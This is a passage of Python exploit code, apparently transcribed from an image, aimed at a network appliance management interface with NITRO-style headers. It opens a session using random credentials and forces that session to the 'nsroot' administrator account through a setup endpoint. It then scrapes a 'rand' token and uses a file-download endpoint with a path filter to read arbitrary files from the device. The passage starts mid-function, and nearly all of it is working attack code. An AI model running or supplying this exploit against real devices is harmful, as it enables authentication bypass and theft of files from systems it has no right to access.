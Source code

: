 ```python
		'Content-Type':'application/xml',
		'X-NITRO-USER':random_string(),
		'X-NITRO-PASS':random_string(),
	}

	data = '<appfwprofile><login></login></appfwprofile>'
	
	session.post(url=url, params=params, headers=headers, data=data, verify=False)
	return session

def fix_session(base_url, session):
	url = '{0}/menu/ss'.format(base_url)

	params = {
		'sid':'nsroot',
		'username':'nsroot',
		'force_setup':'1'
	}

	session.get(url=url, params=params, verify=False)

def get_rand(base_url, session):
	url = '{0}/menu/stc'.format(base_url)
	r = session.get(url=url, verify=False)

	for line in r.text.split('\n'):
		if 'var rand =' in line:
			rand = line.split('"')[1]
			return rand

def do_lfi(base_url, session, rand):
	url = '{0}/rapi/filedownload?filter=path:{1}'.format(base_url, PAYLOAD)

	headers = {
		'Content-Type':'application/xml',
		'X-NITRO-USER':random_string(),
		'X-NITRO-PASS':random_string(),
		'rand_key':rand
	}

	data = '<clipermission></clipermission>'

	r = session.post(url=url, headers=headers, data=data, verify=False)
	print (r.text)

def main(base_url):
	print ('[-] Creating session..')
	session = requests.Session()
	create_session(base_url, session)
	print ('[+] Got session: {0}'.format(session.cookies.get_dict()['SESSID']))

	print('[-] Fixing session..')
	fix_session(base_url, session)

	print ('[-] Getting rand..')
	rand = get_rand(base_url, session)
	print ('[+] Got rand: {0}'.format(rand))

	print ('[-] Re-breaking session..')
	create_session(base_url, session)

	print ('[-] Getting file..')
	do_lfi(base_url, session, rand)
```